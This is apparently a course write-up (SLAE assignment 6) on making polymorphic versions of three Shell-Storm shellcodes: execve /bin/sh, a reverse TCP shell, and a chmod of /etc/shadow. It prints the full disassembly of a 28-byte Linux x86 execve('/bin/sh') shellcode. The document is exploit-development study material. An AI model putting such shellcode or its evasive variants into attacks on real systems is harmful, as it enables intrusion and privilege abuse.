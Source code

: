 ![Polymorphic](/assets/images/polymorphic.jpg)

The 3 Shell-Storm references that will be modified:

* Execve <code class="language-plaintext highlighter-rouge">/bin/sh</code> 
* Reverse TCP Shell 
* Chmod <code class="language-plaintext highlighter-rouge">/etc/shadow</code>  

#### 1st Shellcode (Execve /bin/sh)
--------

The Execve shellcode will spawn a <code class="language-plaintext highlighter-rouge">/bin/sh</code> shell on the local host. 

Referenced from Shell-Storm [http://shell-storm.org/shellcode/files/shellcode-811.php] [execve-shellstorm]:

```c
/*
Title:	Linux x86 execve("/bin/sh") - 28 bytes
Author:	Jean Pascal Pereira <pereira@secbiz.de>
Web:	http://0xffe4.org


Disassembly of section .text:

08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
```

[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment6
[execve-shellstorm]: http://shell-storm.org/shellcode/files/shellcode-811.php
[reversetcp-shellstorm]: http://shell-storm.org/shellcode/files/shellcode-849.php